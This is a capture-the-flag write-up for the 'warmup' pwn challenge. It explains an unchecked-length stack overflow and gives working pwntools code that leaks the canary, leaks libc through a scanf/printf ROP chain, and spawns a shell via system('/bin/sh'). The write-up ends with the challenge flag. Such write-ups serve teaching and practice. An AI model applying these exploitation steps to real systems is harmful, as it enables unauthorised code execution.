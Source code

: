 # WannaGame - warmup

You can download challenge here: [warmup.zip](warmup.zip)

There are 3 files in zip:
- libc.so.6
- ld.so.6
- warmup

Download and extract and we can get started!

# 1. Find bug

First, let's decompile the file with IDA to see how the program works. There is just 1 function main():

![main.png](images/main.png)

Look at the result, we can see clearly that variable `n` is checked if it's valid or not so if we input a large n, we can write data out of the array and change the saved rip if we want. Next, let's check all the defences of the binary:

```bash
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

So the binary has no PIE but has canary. That's all we should know.

# 2. Idea

Because the program has canary, we will need to skip inputting when the buffer points to canary. It can be done by entering character `+` or `-` and we can pass it easily to change the saved rip to jump back to main again, meanwhile it print the sum of canary and saved rip out and because saved rip now is our chosen address so getting canary will be easy.

When we have canary, we will need to create our custom format string `%s` because after analyzing stack, there are no libc address on it, so we will want to do `printf("%s, printf@got)` to leak libc address out. After that, we can do a simple ROPchaining to get shell and get the flag.

Summary:
- Stage 1: Leak canary
- Stage 2: Create format string && leak libc address
- Stage 3: Get shell

# 3. Exploit

### Stage 1: Leak canary

We know that we can skip inputting canary but still need to input saved rip so we just want to enter the correct n so that it will print out the sum of canary and addresses we input. Due to stack alignment, we cannot jump directly to main but we can jump to another ret before jump to main. Our payload look like this:

```python
ret = 0x0000000000401362
payload = [
    ret,
    exe.sym['main']
]
```

After analyzing stack, we know canary is at 18th input so we have this code to leak the canary and jump again to main:

```python
ret = 0x0000000000401362
payload = [
    ret,
    exe.sym['main']
]

p.sendlineafter(b'Enter n: ', f'{19 + len(payload)}'.encode())
for i in range(17):
    p.sendlineafter(b': ', '0')
p.sendlineafter(b': ', b'+')        # canary
p.sendlineafter(b': ', b'0')        # saved rbp
for i in range(len(payload)):       # Saved rip
    p.sendlineafter(b': ', f'{payload[i]}'.encode())
canary = int(p.recvline()[:-1]) - ret - exe.sym['main']
log.info("Canary: " + hex(canary))
```

We got canary leaked:

![canary-leak.png](images/canary-leak.png)

### Stage 2: Create format string && leak libc address

Because program doesn't have string `%s` itself so we will use `scanf("%lu", &buf)` to input format string `%s` to buf and use that buf as format string for `printf(buf, printf@got)` so we have payload as following:

```python
pop_rdi = 0x00000000004013d3
pop_rsi_r15 = 0x00000000004013d1
str_lu = 0x402021
payload = [
    pop_rdi, str_lu,
    pop_rsi_r15, 0x00000000404a00, 0,
    exe.sym['__isoc99_scanf'],

    pop_rdi, 0x00000000404a00,
    pop_rsi_r15, exe.got['printf'], 0,
    exe.sym['printf'],
    
    ret,
    exe.sym['main']
]
```

We send this payload with this code:

```python
p.sendlineafter(b'Enter n: ', f'{19 + len(payload)}'.encode())
for i in range(17):
    p.sendlineafter(b': ', b'0')
p.sendlineafter(b': ', b'+')         # canary
p.sendlineafter(b': ', b'0')         # Saved rbp
for i in range(len(payload)):        # Saved rip
    p.sendlineafter(b': ', f'{payload[i]}'.encode())
```

Now we will wait a bit and enter the number corresponding to string `%s` and the printf address will be printed out:

```python
p.recvline()
p.sendline(str(u16(b'%s')).encode())
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['printf']
log.info("Libc base: " + hex(libc.address))
```

![libc-leak.png](images/libc-leak.png)

Nice! Let's get flag now!

### Stage 3: Get shell

Now we just need a simple ROP to get shell:

```python
payload = [
    ret,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system'],
]
```

Then we send it:

```python
p.sendlineafter(b'Enter n: ', f'{19 + len(payload)}'.encode())
for i in range(17):
    p.sendlineafter(b': ', b'0')
p.sendlineafter(b': ', b'+')        # canary
p.sendlineafter(b': ', b'0')        # Saved rbp
for i in range(len(payload)):       # Saved rip
    p.sendlineafter(b': ', f'{payload[i]}'.encode())
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `W1{just_a_simple_bof_to_warm_yourself_up}`